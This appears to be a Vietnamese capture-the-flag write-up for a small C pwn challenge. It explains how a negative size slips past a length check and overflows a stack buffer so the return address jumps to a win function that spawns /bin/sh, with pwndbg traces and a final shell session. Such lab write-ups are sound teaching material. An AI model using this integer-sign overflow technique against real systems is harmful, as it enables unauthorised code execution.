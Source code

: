 # Phân tích file

- Bài này tác giả cho mình source nên mình đỡ phải đọc ida.
- Main.
    
    ```c
    int main() {
      int length;
      char buf[0x100];
    
      /* Read and check length */
      length = readint("Size: ");
      if (length > 0x100) {
        print("Buffer overflow detected!\n");
        exit(1);
      }
    
      /* Read data */
      readline("Data: ", buf, length);
      print("Bye!\n");
    
      return 0;
    }
    ```
    
    - Chương trình yêu cầu ta nhập size qua hàm readint, sau đó sẽ dùng size đó làm độ dài cho input ở phần nhập data.
    - Nếu size > 0x100 sẽ báo lỗi và exit nên không thể overflow theo cách nhập size > 0x100 được.
- Readint
    
    ```c
    int readint(const char *msg) {
      char buf[0x10];
      readline(msg, buf, 0x10);
      return atoi(buf);
    }
    ```
    
- Readline
    
    ```c
    void readline(const char *msg, char *buf, size_t size) {
      char c;
      print(msg);
      for (size_t i = 0; i < size; i++) {
        if (read(0, &c, 1) <= 0) {
          print("I/O Error\n");
          exit(1);
        } else if (c == '\n') {
          buf[i] = '\0';
          break;
        } else {
          buf[i] = c;
        }
      }
    }
    ```
    
    - Ở đây ta có thể thấy 1 bug là nếu ta nhập số âm thì vẫn thỏa cho điều kiện < 0x100 nhưng size ta nhập cho data là 1 số cực lớn nên có thể overflow được, ta chỉ cần control ret đến hàm win là được.
    
    ```c
    void win(void) {
      char *args[] = {"/bin/sh", NULL};
      execve(args[0], args, NULL);
      exit(0);
    }
    
    /* Print `msg` */
    void print(const char *msg) {
      write(1, msg, strlen(msg));
    }
    ```
    

# Exploit

- Nhập size -100
    
    ```c
    ► 0x401339 <main+30>    cmp    dword ptr [rbp - 4], 0x100
    
    pwndbg> x/xg $rbp-4
    0x7fffffffdf6c: 0x00000000ffffff9c
    pwndbg> p/d 0x00000000ffffff9c
    ```
    
    - Ta có thể pass được check điều kiện này và dùng size là 0xffffffffffffff9cđể làm length cho lần input data.

```c
► 0x40136f <main+84>     call   readline <readline>
        rdi: 0x402039 ◂— 0x4200203a61746144 /* 'Data: ' */
        rsi: 0x7fffffffde60 ◂— 0x34000000340
        rdx: 0xffffffffffffff9c
        rcx: 0x1
```

- Giờ thì ta có thể overflow control ret đến win.
    
    ```c
    0x401386 <main+107>    ret             <0x4011d6; win>
        ↓
       0x4011d6 <win>         endbr64
       0x4011da <win+4>       push   rbp
       0x4011db <win+5>       mov    rbp, rsp
       0x4011de <win+8>       sub    rsp, 0x10
       0x4011e2 <win+12>      lea    rax, [rip + 0xe1b]
    ```
    

```c
Size: Data: Bye!
$ id
uid=1000(dinhvu) gid=1000(dinhvu) groups=1000(dinhvu),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev)
$ ls
filtered  filtered.c  flag.txt    solve.py
$
```
